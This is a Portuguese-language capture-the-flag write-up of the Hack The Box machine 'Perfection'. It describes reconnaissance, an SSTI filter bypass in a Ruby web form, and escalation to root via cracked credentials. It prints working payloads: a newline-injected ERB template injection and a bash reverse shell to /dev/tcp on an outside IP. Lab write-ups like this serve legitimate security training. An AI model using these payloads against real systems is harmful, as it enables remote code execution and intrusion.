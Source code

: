 ```yaml
---
title: "Hack the Box - Perfection"
summary: "Resolução da máquina perfection do hack the box "
tags: ["CTF", "Hack the Box"]
# externalUrl: ""
date: 2024-03-22
draft: false
showAuthor: false
authors:
  - paixao
showAuthorsBadges: false
# series: ["CTF"]
# series_order: 2
---
```


## 1. Introdução

Coe, aqui estara a descrição dos passos que eu junto à galera da sunsec tomamos para resolver a máquina "Perfection" do hack the box. E que depois de muita luta (principalmente no bypass do SSTI) nós conseguimos ownar.

## Reconhecimento

A princípio, utilizamos o nmap a fim de descobrir as portas sendo utilizadas e os serviços exploravei bem como suas versões

- nmap -sC -sV $target

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Após analisar o resultado do nmap, nos voltamos para a aplicação web na porta 80. Na qual seguimos mapeando, foi utilizado o wapplizer extrair informações sobre as tecnologias sendo utilizadas na página web e descobrimos que estão utilizando ruby na versão 3.0.2. Além disso, o site foi construido usando o WEBrick 1.7.0. Com tudo que foi recolhido, buscamos por exploits para explorar as versões das tanto do ruby quanto do WEBbrick mas não encontramos nada.

Continuamos vasculhando à aplicação até esbarrar no seguinte formulário:

[![Imagem do form de peso](perfection-form.png)]

Seguindo o caminho esperado pela aplicação, nós inserimos os dados necessários no formulário e obtivemos como resultado um cálculo de peso.

```
Your total grade is 12%

sample: 12%

N/A: 0%

N/A: 0%

N/A: 0%

N/A: 0%
```

Dado este output, nós percebemos que os dados que nós inserimos estão sendo processados pelo backend da aplicação e está sendo devolvido para o frontend. Com isso em mente, tentamos inserir alguns payloads de XSS/SQLI/SSTI e obtivemos a seguinte a menssagem "Malicious input blocked" então decidimos investir nesse campo. Focamos nos payloads de SSTI por se tratar de uma app escrita em ruby e esta linguagem ter um péssimo histórico com templates.

Após batermos cabeça por muito tempo usando vários payloads com os mais diversos encodes possíveis, utilizamos uma técnica de bypass por meio da quebra de linha com o seguinte payload:

```
unencoded
aa\n<%= `ls /` %>

encoded
aa%0a<%25%3d+`ls+/`+%25>
```

Feito isso, agora é possível executar comandos dentro da máquina alvo. Sendo assim tentamos pegamos uma shell reversa alterando o comando para:

```
unencoded
aa\n<%= `bash -i >& /dev/tcp/10.10.14.73/1337 0>&1` %>

encoded
aa\n<%25%3d+`bash+-i+>%26+/dev/tcp/10.10.14.73/1337+0>%261`+%25>
```

Agora dentro da máquina alvo fazemos o update da shell

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Vasculhando por informações, encontra-se no diretorio do usuário "susan" um sub-diretorio de migrations, e utilizando o comando strings nele algumas informação.

```
Credenciais da sunsan
```

De posse dessa credencial nós quebrabos a senha com hashcat e a utilizamos para logar como root e pegar a última flag.
